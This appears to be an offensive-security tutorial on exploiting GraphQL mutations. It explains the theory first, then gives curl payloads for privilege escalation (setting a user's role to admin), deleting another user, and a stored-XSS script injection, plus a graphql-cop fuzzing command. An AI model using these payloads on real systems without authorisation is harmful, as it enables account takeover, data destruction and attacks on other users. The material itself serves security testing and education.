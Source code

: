 ```yaml
---
title: Exploiting GraphQL Mutations for Data Modification
description: Learn how to exploit GraphQL mutations for unauthorized data modifications
  using injection techniques.
keywords:
- GraphQL mutations
- mutation injection
- data modification
- GraphQL schema
- GraphQL security
- injection attack
- malicious payloads
---
```


# Mutations

## Context

In this article, we will explore how to exploit GraphQL mutations for unauthorized data modification using injection techniques. To fully engage with this content, it is assumed that you have a good understanding of the GraphQL schema structure and introspection, are familiar with standard GraphQL query syntax and HTTP request crafting, and possess a basic understanding of general GraphQL injection methodologies.

## Theory

### GraphQL Mutations and Their Security Implications

Mutations in GraphQL are operations designed to allow clients to modify server-side data, such as creating, updating, or deleting entries. These operations are integral to the functionality provided by GraphQL, enabling dynamic interactions within applications. However, because mutations often incorporate user input, they present a significant target for injection attacks. The vulnerability arises when input validation is insufficient, potentially allowing an attacker to alter data in unauthorized ways or escalate privileges within the application.

### Mutation Injection Attack Surface

The attack surface for mutation injections encompasses identifying mutation endpoints, analyzing their input parameters, and crafting malicious payloads that alter data. Applications frequently assume that authenticated users will only perform authorized mutations, but this trust can be misplaced if input validation is weak. The flexible input structure of GraphQL can allow attackers to hide malicious intent within complex mutation objects, making exploitation less conspicuous.

### Risks of Malicious Mutations

When executed successfully, mutation injection can lead to several detrimental outcomes. These include unauthorized data creation, modification, or deletion, potentially disrupting application logic or damaging data integrity. Furthermore, if mutation fields lack granular access control, the risk of abuse increases, enabling attackers to execute high-impact actions.

## Practice

### Manual Mutation Injection for Unauthorized Data Modification

Manual injection allows attackers to exploit specific mutation fields by crafting and sending HTTP requests with payloads that modify, delete, or create data improperly.

- **Change User Privilege**:
  
  Execute the following command to send a crafted mutation, attempting to escalate user privileges:
  
  ```bash
  curl -X POST https://target/graphql -H 'Content-Type: application/json' -d '{"query": "mutation { updateUser(id: \"1\", role: \"admin\") { id role } }"}'
  ```
  
  This request attempts to change the user with ID `1` to have `admin` privileges.

- **Delete Another User**:
  
  Inject a mutation to delete another user by executing:
  
  ```http
  mutation { deleteUser(id: "2") { id } }
  ```

- **Inject JavaScript for XSS**:
  
  Use the following mutation to inject JavaScript into a post, testing for stored XSS vulnerabilities:
  
  ```bash
  curl -X POST https://target/graphql -H 'Content-Type: application/json' -d '{"query": "mutation { createPost(input: {title: \"Injected\", content: \"<script>alert(1)</script>\"}) { id } }"}'
  ```

  This script alerts '1' whenever the injected content is rendered by any user's browser.

The outcome of these injections can lead to unauthorized data modification or deletion, or the execution of malicious scripts by other users.

### Automated Mutation Fuzzing for Injection Discovery

Automated fuzzing tools can be used to identify vulnerable mutation fields more efficiently.

- **Fuzzing Mutations**:
  
  Run the `graphql-cop` tool using:
  
  ```bash
  python3 graphql-cop.py -u https://target/graphql --fuzz-mutations
  ```

  This process will automatically explore mutation fields, identifying those susceptible to injections or potential privilege escalations.

Upon completion, the tool reveals any mutation fields vulnerable to tampering, enabling more precise targeting of subsequent assaults.

## Tools

- **curl**
- **graphql-cop**